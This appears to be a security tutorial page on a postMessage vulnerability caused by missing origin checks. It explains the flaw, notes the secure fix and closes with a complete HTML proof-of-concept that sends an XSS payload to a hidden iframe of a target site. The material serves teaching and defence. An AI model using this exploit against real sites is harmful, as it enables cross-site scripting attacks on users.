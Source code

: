 **Vulnerability Analysis**

*   **Improper Origin Validation:**

    * The `postMessage()` method allows specifying the target origin. However, if the origin is not specified and a wildcard (`*`) is used instead, the message could be intercepted or sent to any site.
    * In the vulnerable implementation, the parent window listens for messages but does not validate the origin of the incoming message, making it susceptible to attacks.

    <figure><img src="../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Exploitation Process**

1. **Understanding the Vulnerable Code:**
   * The parent window is listening for messages, but without verifying the sender's origin. This opens up the possibility of an attacker sending malicious data to the parent window.
2.  **Secure Implementation:**

    * A secure implementation would involve verifying the origin of the sender by comparing it with an acceptable origin. This prevents unauthorized messages from being processed.

    <figure><img src="../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
3. **Exploit Development:**
   * **HTML Structure:**
     * Create an HTML page with a submit button.
     * Load the vulnerable application in an `iframe`.
   * **Exploit Function:**
     * Define a `payload` containing the malicious JavaScript code.
     * Use the `contentWindow` property to access the `iframe`'s window object.
     * Send the payload to the `iframe` using `postMessage()`.

```html
vulnerable<!DOCTYPE html>
<html>
<head>
    <title>PostMessage Exploit</title>
</head>
<body>
    <h1>Exploit PostMessage Vulnerability</h1>
    <iframe id="targetFrame" src="https://vulnerable-nodejs-app.com" style="display:none;"></iframe>
    <button onclick="exploit()">Click to Exploit</button>

    <script>
        function exploit() {
            // Malicious payload
            var payload = "<script>alert('XSS via postMessage')</script>";

            // Accessing the iframe's content window
            var iframe = document.getElementById('targetFrame').contentWindow;

            // Sending the payload to the iframe
            iframe.postMessage(payload, "*");
        }
    </script>
</body>
</html>
```
